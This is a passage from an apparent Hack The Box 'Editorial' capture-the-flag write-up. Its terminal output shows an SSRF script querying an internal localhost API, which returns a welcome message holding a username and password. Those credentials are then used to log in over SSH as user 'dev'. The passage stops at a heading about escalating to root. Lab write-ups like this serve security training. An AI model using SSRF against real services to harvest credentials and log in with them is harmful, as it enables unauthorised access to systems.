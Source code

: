 ```bash
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

- There's a pair of credentials in `/api/latest/metadata/messages/authors`

```bash
┌──(bravosec㉿fsociety)-[~/htb/Editorial]
└─$ p -q python ssrf.py http://127.0.0.1:5000/api/latest/metadata/messages/authors | jq .template_mail_message -r
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.
```

### 22 - SSH

```bash
┌──(bravosec㉿fsociety)-[~/htb/Editorial]
└─$ cssh $(pt get rhost) dev 'dev080217_devAPI!@'
Warning: Permanently added 'editorial.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)
[...]
dev@editorial:~$ id
uid=1001(dev) gid=1001(dev) groups=1001(dev)
```

# Root Flag
---


## From dev to prod

### Situation awareness
